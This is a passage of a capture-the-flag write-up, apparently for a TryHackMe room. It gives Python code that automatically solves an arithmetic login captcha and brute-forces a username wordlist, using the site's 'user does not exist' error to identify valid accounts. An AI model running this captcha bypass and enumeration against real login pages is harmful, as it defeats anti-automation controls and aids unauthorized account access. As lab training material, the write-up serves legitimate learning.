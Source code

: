 ```python
            captcha_Str = captcha_Str.group()     # To get the intended matching string like (123 + 456 = ?) 
            print(captcha_Str)
            captcha_Str = sub(r' = \?', '', captcha_Str)      # Replace this section with nothing to remove ( = ?)
            print(captcha_Str)
            numbers = split(r'\s*[-+*]\s*', captcha_Str)   # Split the captcha string based on the operation type (+,-,or *)

            # print(numbers) ==>  ['123', '456']     

            num1 = int(numbers[0])
            num2 = int(numbers[1])
            if '+' in captcha_Str:
                captcha_code = num1 + num2
                print(captcha_code)
                return captcha_code
            elif '-' in captcha_Str:
                captcha_code = num1 - num2
                print(captcha_code)
                return captcha_code
            elif '*' in captcha_Str:
                captcha_code = num1 * num2
                print(captcha_code)
                return captcha_code
        else:
            print("No captcha found.")
```
## Username enumeration

- Then if you entered a valid captcha code without a valid username, the web application will send an error message with `The user 'sec0gh' does not exist`.
- So now we will try to enumerate a valid user by brute-forcing all usernames with `the usernames list in the required files of the room` and sending that with the valid captcha we got in order to send a valid request to authenticate.
- When you see the response in the source page, you will find there is an HTML encoding for the error message that we saw, so we will embed this error message in the code to match that if we found this message in the source page, the username will be invalid and otherwise the username will be valid.

![Username not valid.png](https://github.com/Sec0gh/python-scripts/blob/main/Capture!%20THM%20Room/Username%20not%20valid.png)

```python
def username_enum(url,usernames_list):
    with open(f'{usernames_list}','r') as file:   # Access the path of usernames list.
        for username in file:
            username = username.strip()
            captcha_code = get_captcha_code(url)
            data = {"username": username, "password": "sec0gh", "captcha": captcha_code}
            response = requests.post(url, data=data)    
            
            if f"The user &#39;{username}&#39; does not exist" in response.text:
                print(colored("Invalid user.",'red'))
            else:
                print(colored("Valid user is found: "+ username,"green")) 
                return username
```
